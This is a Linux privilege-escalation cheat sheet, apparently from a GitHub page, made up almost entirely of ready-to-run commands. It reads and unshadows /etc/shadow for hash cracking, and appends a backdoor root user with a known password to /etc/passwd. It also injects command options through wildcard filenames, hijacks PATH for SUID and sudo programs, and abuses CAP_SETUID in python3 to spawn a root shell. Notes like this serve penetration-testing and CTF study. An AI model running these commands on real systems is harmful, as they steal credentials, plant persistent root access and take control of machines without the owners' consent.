 ## Readable /etc/shadow exploit
- Just read the hash.
- Or use `unshadow` _(on target or personal machine)_:
```bash
unshadow /etc/passwd /etc/shadow > unshadowed.txt
```

## Writable /etc/passwd or /etc/shadow exploit
- Create a password:
```bash
openssl passwd -1 -salt <salt_like_username> <password>
```
- Or use this prepared user:
```bash
echo "new:\$1\$new\$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash" >> /etc/passwd
```
- Switch to the new user:
```bash
su new # password:123
```

## Exploiting wildcards
- Check options for the command that uses the wildcard: https://gtfobins.github.io/gtfobins/
- Create files in the current directory with filenames as options:
```bash
touch ./--<command_option>
```

## Modifying `$PATH` for SUID/SUDO programs
- Make alternative command which runs privileged bash:
```bash
echo "/bin/bash -p" > /tmp/<command>
chmod +x /tmp/<command>
```
- Modify `$PATH`:
```bash
export PATH=/tmp:$PATH # To start searching for the <command> in /tmp first
```
- Or run program and pass `$PATH` to it _(this may also work for `sudo` commands with no secure_path set)_:
```bash
PATH=/tmp:$PATH <program_name>
```

## Exploiting capabilities
- Possibly dangerous capabilities:
```
=ep, CAP_CHOWN, CAP_DAC_OVERRIDE, CAP_DAC_READ_SEARCH, CAP_SETUID, CAP_SETGID, CAP_NET_RAW, CAP_SYS_ADMIN, 
CAP_SYS_PTRACE, CAP_SYS_MODULE, CAP_FORMER, CAP_SETFCAP
```
- Example exploiting `CAP_SETUID` set for python3:
```bash
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
